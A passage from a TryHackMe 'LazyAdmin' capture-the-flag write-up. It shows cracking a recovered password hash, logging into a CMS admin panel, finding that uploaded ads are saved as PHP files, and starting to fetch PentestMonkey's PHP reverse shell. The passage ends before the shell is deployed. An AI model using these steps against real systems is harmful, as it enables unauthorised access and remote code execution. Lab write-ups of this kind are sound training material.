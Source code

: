 ```bash
  `tags` text NOT NULL,
  `description` varchar(255) NOT NULL DEFAULT \'\',
  `sys_name` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `category` int(10) NOT NULL DEFAULT \'0\',
  `in_blog` tinyint(1) NOT NULL,
  `views` int(10) NOT NULL,
  `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `sys_name` (`sys_name`),
  KEY `date` (`date`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>
```
11. `firefox "https://crackstation.net/"` to launch Firefox and redirect it to **crackstation.net** to attempt to crack the discovered user's password hash, which worked in the end and managed to crack the password hash for us

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20LazyAdmin/Crackstation.png)

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20LazyAdmin/Crackstation%20Password%20Cracked.png)

13. `firefox "http://{TARGET IP}/content/as"` to launch Firefox and redirect it to the target's **/content/as**, which turned out to be a login page, for which we can log in to using the new set of credentials that we found and cracked

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20LazyAdmin/as.png)

# Vulnerability Identification
> Command Injection
13. `firefox "http://10.10.165.242/content/as/?type=ad"` to launch Firefox and redirect it to the **/content/as/?type=ad** page to see if anything that we create and upload here will be uploaded into the **/content/inc/ads** directory that we saw earlier in the **/content/inc** directory

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20LazyAdmin/Test%20Ad.png)

14. `firefox "http://{TARGET IP}/content/inc/ads"` to launch Firefox and redirect it to the **/content/inc/ads** directory to see if the test ad that we created and uploaded gets saved here, which it did as a PHP (.php) file

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20LazyAdmin/Test%20Ad%20Success.png)

# Vulnerability Exploitation
> PHP Reverse Shell
15. `git clone https://github.com/pentestmonkey/php-reverse-shell` to download a copy of PentestMonkey's PHP Reverse Shell Github repository onto our attack machine
16. `ls` to verify that the repository was successfully copied onto our attack machine, which it has
17. `cd php-reverse-shell` to change into the downloaded Github repository
18. `ls` to list the contents of the repository
19. `mousepad php-reverse-shell.php` to laucnh the Mousepad text editor and open the **php-reverse-shell.php** file
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ git clone https://github.com/pentestmonkey/php-reverse-shell
Cloning into 'php-reverse-shell'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 10 (delta 1), reused 1 (delta 1), pack-reused 7
```